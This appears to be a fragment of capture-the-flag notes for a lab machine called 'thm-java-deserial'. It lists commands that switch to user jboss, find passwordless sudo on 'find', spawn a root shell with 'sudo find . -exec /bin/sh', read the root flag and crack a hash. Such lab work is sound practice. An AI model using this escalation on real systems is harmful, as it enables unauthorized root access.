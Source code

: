 ```
```

- `su jboss`
- `sudo -l`
 
```
User jboss may run the following commands on thm-java-deserial:
    (ALL) NOPASSWD: /usr/bin/find
``` 

- escalate `sudo find . -exec /bin/sh \; -quit`
- `cat /root/root.txt`

- base64 decode then md5 crack 

* * * 